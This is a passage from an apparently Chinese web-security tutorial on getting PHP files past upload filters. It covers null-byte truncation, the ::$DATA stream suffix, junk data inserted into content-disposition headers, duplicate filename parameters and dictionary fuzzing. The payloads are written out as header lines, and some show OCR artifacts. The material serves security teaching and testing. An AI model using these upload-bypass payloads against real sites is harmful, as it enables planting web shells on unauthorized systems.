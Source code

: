 > 
…… filename="x.php%00/.txt"

……filename="x.php%00/.txt"
（可以在上传时多预留了一个空格占位，再改%00和0x0所对应的hex值，从而达到修改）


#### 方法三：::$$DATA数据量绕过

在php文件名后面加上`::$DATA`系统会把它当作文件流来进行处理，不会检测文件的后缀名，且保留::$DATA之前的文件名以及后缀

> 
…… filename="x.php::$$DATA"


#### 方法四：在filename中插入无用数据，混淆上传文件

> 
content-disposition:form-data; name="upload_file"; filename="**content-disposition:form-data;**x.php";
content-type: image/jpeg
(插入混淆数据在里面干扰，误认为x.php没有被接收)


## 重复数据绕过：

（我感觉这个和数据溢出有异曲同工之妙）

#### 方法一：重复写一个错误的 filename1

> 
content-disposition:form-data; name="upload_file";** filename="x.php"; filename1="x.txt";**
content-type: image/jpeg


#### 方法二：重写filename

（以最后一个为准）

> 
content-disposition:form-data; name="upload_file";** filename="x.txt"; filename1="x.txt";filename1="x.txt";……filename1="x.php";**
content-type: image/jpeg


 

## Fuzz字典爆破绕过：

可以使用智能添加payload（有效载荷）位置，也可手动添加

（实战的主要的运用方法，都是迫不得已才用手工）

工根据选择的攻击类型，和有效载荷类型不同，会有不同的效果

有效载荷可以选择Simple list（简单清单）-------&gt;导入自己下载或收集的规则（还可以点击添加，一个一个加上补充的）
